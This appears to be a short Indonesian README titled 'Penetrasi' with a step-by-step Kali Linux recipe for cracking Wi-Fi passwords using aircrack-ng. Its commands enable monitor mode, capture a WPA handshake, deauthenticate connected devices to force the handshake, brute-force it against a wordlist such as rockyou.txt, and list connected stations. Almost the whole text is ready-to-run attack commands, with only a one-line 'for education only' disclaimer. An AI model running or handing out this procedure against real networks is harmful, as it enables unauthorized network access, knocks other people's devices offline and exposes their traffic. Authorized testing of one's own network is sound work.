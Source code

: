 # Penetrasi
Penetrasi jaringan WIFI menggunakan kali linux

1. Mengubah mode Wi-Fi menjadi monitor mode.
   (sudo airmon-ng start wlan0)

3. Cari SSID jaringan yang ingin Anda uji, lalu catat BSSID dan channel-nya.
   (sudo airodump-ng wlan0)

5. Menangkap handshake.
   (sudo airodump-ng -c [channel] --bssid [BSSID] -w [output_file] wlan0)
   Ganti [channel] dengan nomor channel, [BSSID] dengan alamat jaringan, dan [output_file] dengan nama file hasil tangkapan.

7. Lakukan deauthentication (memutuskan perangkat) untuk memicu handshake.
   (sudo aireplay-ng --deauth 10 -a [BSSID] wlan0)

9. aircrack-ng untuk mencoba memecahkan handshake.
    (sudo aircrack-ng -w [wordlist] -b [BSSID] [output_file]-01.cap)
   Ganti [wordlist] dengan lokasi file wordlist (contoh: /usr/share/wordlists/rockyou.txt) dan [output_file]-01.cap dengan file hasil tangkapan.

11. Jika kata sandi ditemukan, akan ditampilkan di terminal.

12. menampilkan Handshake.
    (aircrack-ng nama-file.cap)

14. Melihat aktifitas jaringan sesuai bssid.
    (sudo airodump-ng wlan0)
    Perhatikan kolom STATION.

hanya untuk edukasi, semoga berhasil..
